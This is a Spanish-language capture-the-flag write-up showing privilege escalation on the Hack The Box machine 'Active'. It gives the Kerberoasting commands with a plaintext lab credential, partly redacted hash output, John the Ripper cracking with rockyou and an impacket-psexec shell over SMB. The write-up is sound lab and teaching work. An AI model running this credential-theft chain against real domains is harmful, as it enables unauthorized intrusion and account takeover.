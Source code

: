 ## Escalada de Privilegios

### Revisión de permisos y/o privilegios
Como no se tiene acceso al dominio como tal, como para lanzar comandos o algun script de enumeración automatizado, segun mi metodologia, se me ocurre hacer 3 ataques:
- Kerberoasting.
- Asproast.
- Mapeo del dominio con bloodhound.
Asi que inclinando por la primera opción, se realiza un ataque kerberoasting con el usuario SVC_TGS para ver si se puede obtener algun hash valido.
~~~bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2025-10-29 12:52:58.092173             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$61b2f<SNIP>4b3
~~~
Al parecer si se puede recuperar el hash del usuario administrator, por lo que se procede a intentar descifrarlo, esto con la herramienta "john the ripper"
~~~bash
sudo john hash_admin --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ti<SNIP>68 (?)     
1g 0:00:00:19 DONE (2025-10-29 14:23) 0.05010g/s 527955p/s 527955c/s 527955C/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
Despues de esperar un tiempo, si se logro descifrar el hash mediante un diccionario de contraseñas.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Como en teoria se tienen credenciales del usuario "administrator" y no se tiene winrm abierto, existe una forma de entrar mediante el servicio SMB, esto funciona siempre y cuando se tengan los permisos elevados (dado que es admin, supongo que los tiene), por lo que se entra utilizando PSEXEC (esto crea un nuevo proceso para ganar una shell interactiva).
~~~bash
impacket-psexec administrator@10.10.10.100
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file nRFloWYC.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service GQQj on 10.10.10.100.....
[*] Starting service GQQj.....
[!] Press help for extra shell commands
~~~